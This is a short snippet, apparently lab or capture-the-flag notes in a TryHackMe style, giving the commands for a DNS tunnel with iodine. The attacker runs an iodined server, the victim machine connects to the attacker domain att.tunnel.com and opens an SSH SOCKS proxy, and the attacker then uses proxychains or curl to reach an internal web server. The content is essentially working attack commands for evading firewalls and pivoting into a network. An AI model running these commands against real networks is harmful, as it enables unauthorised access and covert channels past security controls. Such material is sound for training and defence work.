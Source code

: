 **Attacker**
 
	 sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com      

**Victim**

	sudo iodine -P thmpass att.tunnel.com 
	ssh thm@10.1.1.2 -4 -f -N -D 1080
	
**Attacker**

	proxychains curl http://192.168.0.100/demo.php
	#OR
	curl --socks5 127.0.0.1:1080 http://192.168.0.100/demo.php
